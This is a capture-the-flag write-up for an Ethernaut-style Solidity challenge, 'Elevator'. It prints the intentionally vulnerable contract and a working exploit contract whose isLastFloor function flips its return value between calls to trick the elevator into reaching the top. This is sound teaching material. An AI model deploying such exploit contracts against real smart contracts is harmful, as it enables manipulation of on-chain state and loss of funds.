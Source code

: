 # Challenge 11

<img src="./images/BigLevel11.svg" alt="11" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
Challenge
---
> This elevator won't let you reach the top of your building. Right?

  #### - Things that might help:
  - Sometimes solidity is not good at keeping promises.
  - This Elevator expects to be used from a Building.


Solution 
---

1. Remember `Elevator expects to be used from a Building` if we take look at the interface there is one function. and if we look at our contract instance and then you need make first `if` condition needs to be `FALSE` and `top = building.isLastFloor(floor)` needs to be `TRUE` then it will pass the test.

Here's The Code 

```solidity
contract BuildingC {
    
    Elevator elevatorAddress;
    bool result = true;

    constructor(address _addr) {
        elevatorAddress = Elevator(_addr);
    }

    function isLastFloor(uint) external returns (bool) {
        // if true then make false
        if(result == true) {

           result = false; 

        }else { // if false then make true

            result = true;

        }
        // return result
        return result;
    }

    function solveGoTo() public  {
        elevatorAddress.goTo(2);
    }
}
```

2. Here take the instance address and deploy with it. We made condition if the result is `TRUE` then set to the `FALSE` otherwise `TRUE` and return result in `bool`. run the function `solveGoTo`, you will reach to the top becomes `false` to the `true`. now submit the instance your challenge will be cleared.